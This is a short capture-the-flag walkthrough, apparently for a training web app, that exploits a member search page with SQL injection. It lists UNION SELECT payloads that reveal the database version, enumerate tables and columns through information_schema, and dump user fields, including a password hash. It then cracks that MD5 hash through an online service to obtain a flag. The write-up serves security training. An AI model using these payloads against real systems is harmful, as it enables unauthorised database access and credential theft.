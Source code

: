 # Breach 05 - Database member search vulnerability
- On the "HOME" page, click the "MEMBERS" main menu link
- On the "SEARCH MEMBER BY ID" page, copy and paste the following queries respecting their results after each submission
    ```sql
    0 UNION SELECT @@version, database()
    ```
    ```sql
    0 UNION SELECT TABLE_NAME, TABLE_TYPE FROM information_schema.tables
    ```
    ```sql
    0 UNION SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns
    ```
    ```sql
    0 OR 1=1
    ```
    ```sql
    0 UNION SELECT user_id, first_name FROM users
    ```
    ```sql
    5
    ```
    ```sql
    5 UNION SELECT town, country FROM users WHERE user_id = 5 UNION SELECT planet, Commentaire FROM users WHERE user_id = 5 UNION SELECT countersign, user_id FROM users WHERE user_id = 5
    ```
- Open the site https://md5hashing.net or similar in a separate window
- On the website, in the Decode section, select the "Md5" Hash type
- In the appropriate field, copy and paste the Hash String `5ff9d0165b4f92b14994e5c685cdce28`
- Click the "Decode!" button to decrypt the value of `FortyTwo`
- Go back to the main page of the site and paste the lowercased Text `fortytwo` into the Hash section
- Click the "Hash it!" button and find bellow hash Sha256 to get the flag
